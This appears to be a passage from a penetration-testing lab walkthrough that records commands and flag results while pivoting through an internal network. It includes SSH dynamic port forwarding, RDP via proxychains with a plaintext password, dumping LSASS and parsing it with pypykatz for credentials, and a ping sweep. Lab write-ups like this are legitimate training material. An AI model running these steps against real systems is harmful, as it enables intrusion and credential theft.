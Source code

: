 *Command:* Ping sweep

*Result:* Found another host = Flag 3

```mermaid
flowchart TD
subgraph Z[" "]
direction LR
    A[Attacker]:::red --> |ssh| B[Target 1: 10.129.X.X:172.16.5.15]:::green --> C[Target 2:172.16.5.35]
    A[Attacker]:::red -->|X| C[Target 2:172.16.5.35]
    classDef red stroke:#f00
    classDef green stroke:#0f0
end
```

---

*Command:* Dynamic port forwarding to found ip + proxychains xfreerdp to found user
- ssh -D 9050 webadmin@10.129.201.198 -fN -i id_rsa
- proxychains4 xfreerdp /v:172.16.5.35 /u:'mlefay' /p:'Plain Human work!' +clipboard

*Result:* Flag 4

```mermaid
flowchart TD
subgraph Z[" "]
direction LR
    A[Attacker]:::red --> |ssh -D| B[Target 1: 10.129.X.X:172.16.5.15]:::green --> C[Target2= 172.16.5.35]:::blue
    A[Attacker]:::red ---|proxychains xfreerdp| C[Target2= 172.16.5.35]
    classDef red stroke:#f00
    classDef green stroke:#0f0
    classDef blue stroke:#0ff
end
```

---

*Command:* Dump lsass from target 2 + read dump file
- TaskManager => Search for  "Local Security Authority Process" ==> Dump Process ==> Transfer to Attacker
- pypykatz lsass minidump file.dmp
  
*Result:* Found new user:password = Flag 5

---

*Command:* ipconfig showed another interface + ping sweep gave another addresses
- ipconfig all
- for /L %i in (1,1,255) do @ping -n 1 -w 172.16.5.%i >> nul && echo 172.16.5.%i is up
  
*Result:* Ethernet0:172.16.5.35, Ethernet1:172.16.6.35 + 172.16.6.25,172.16.6.45


```mermaid
flowchart TD
subgraph Z[" "]
direction LR
    A[Attacker]:::red --> |ssh -D| B[Target 1: 10.129.X.X:172.16.5.15]:::green --> C[Target2= 172.16.5.35]:::blue --> D[Target 3:172.16.6.25]:::yellow
    C[Target2= 172.16.5.35]:::blue --> E[Target 3:172.16.6.25]:::yellow
    A[Attacker]:::red ---|proxychains xfreerdp| C[Target2= 172.16.5.35]
    classDef red stroke:#f00
    classDef green stroke:#0f0
    classDef blue stroke:#0ff
    classDef yellow stroke:#ffff00
end
```

---